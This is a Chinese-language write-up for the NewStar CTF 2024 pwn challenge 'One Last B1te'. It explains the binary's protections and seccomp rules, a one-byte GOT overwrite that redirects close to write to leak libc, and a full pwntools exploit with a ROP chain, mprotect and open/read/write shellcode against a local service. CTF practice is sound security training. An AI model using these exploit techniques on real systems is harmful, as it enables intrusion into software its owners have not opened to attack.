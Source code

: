 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# One Last B1te

先查保护和沙箱

```plaintext
[*] '/home/?????/PWN/NewStar2024-test/hackgot/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x03 0x00 0x00000028  if (A == sendfile) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```

没有PIE，没有canary，Partial RELRO，意味着存在延迟绑定+got表可写。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+8h] [rbp-18h] BYREF
  _BYTE v5[16]; // [rsp+10h] [rbp-10h] BYREF

  init(argc, argv, envp);
  sandbox();
  write(1, "Show me your UN-Lucky number : ", 0x20uLL);
  read(0, &buf, 8uLL);  // 读入一个地址
  write(1, "Try to hack your UN-Lucky number with one byte : ", 0x32uLL);
  read(0, buf, 1uLL);   // 往上面读入的地址中写入一个字符
  read(0, v5, 0x110uLL);// 往栈上读入内容，有栈溢出
  close(1);             // 关闭stdout
  return 0;
}
```

有一次任意地址写的机会。

程序在新版Ubuntu24下编译，优化掉了csu，此时我们很难利用elf的gadget来ROP。

我们想办法泄露libc地址或者ld地址然后利用libc/ld中的gadget来ROP，执行open+read+write来输出flag文件内容。

程序中只有`write`函数可以进行输出，我们可以利用一个字节任意地址写的机会，把`close`函数的got表的数值改为`write`函数的plt表的地址（因为存在延迟绑定，`close`在第一次调用之前指向的是plt中的表项，我们很容易利用修改最低一个字节的方法来使其指向`write`函数的plt表）

之后由于`close(1)`设置第一个参数为1，同时`read(0, v5, 0x110uLL);`会残留第2、3个参数，我们修改`close`的got表之后相当于执行`write(1,v5,0x110uLL);`，就可以泄露栈上的内容，正好能泄露libc地址，之后利用栈溢出再次启动main函数栈溢出ROP即可。

由于glibc2.39版本不容易控制rdx寄存器，我们可以使用pop_rax + xchg eax,edx的方法来设置rdx寄存器的数值。

```python
# sudo sysctl -w kernel.randomize_va_space=0
# gcc pwn.c -o pwn -masm=intel -no-pie -fno-stack-protector -l seccomp
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('localhost',11451)
#p=process(['./ld-2.31.so', ELFpath], env={"LD_PRELOAD":'./libc-2.31.so'})
# p=process(ELFpath)

close_got=0x404028
write_plt=0x4010c0

p.sendafter("Show me your UN-Lucky number :",p64(close_got))
p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\xc0')
ret=0x0401447
main=0x4013a3
rubbish=0x404000+0x800
payload=b'a'*0x18+p64(ret)+p64(main)
pause()

p.send(payload)
p.recvuntil(b'a'*0x18)
p.recv(0xb8-0x18)
libc_base=u64(p.recv(6)+b'\x00\x00')-0x710b26c2a28b+0x710b26c00000

p.sendafter("Show me your UN-Lucky number :",p64(rubbish))

p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\x70')

pop_rdi=libc_base+0x010f75b
pop_rsi=libc_base+0x110a4d
binsh=libc_base+0x1cb42f

xchg_edx_eax=libc_base+0x01a7f27

pop_rax=libc_base+0x0dd237

open_a=libc_base+0x011B120
read_a=libc_base+0x011BA50
mprotect=libc_base+0x00125C10

payload=b'a'*0x18+p64(pop_rdi)+p64(libc_base+0x202000)+p64(pop_rsi)+p64(0x2000)+p64(pop_rax)+p64(7)+p64(xchg_edx_eax)+p64(mprotect)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_base+0x202000)+p64(pop_rax)+p64(0x1000)+p64(xchg_edx_eax)+p64(read_a)+p64(libc_base+0x202000)

pause()

p.send(payload)

pause()

shellcode=''
shellcode+=shellcraft.open('./flag',0,0)
shellcode+=shellcraft.read('rax',libc_base+0x202000+0x800,0x100)
shellcode+=shellcraft.write(2,libc_base+0x202000+0x800,'rax')
# gdb.attach(p)
p.send(asm(shellcode))

p.interactive()
```
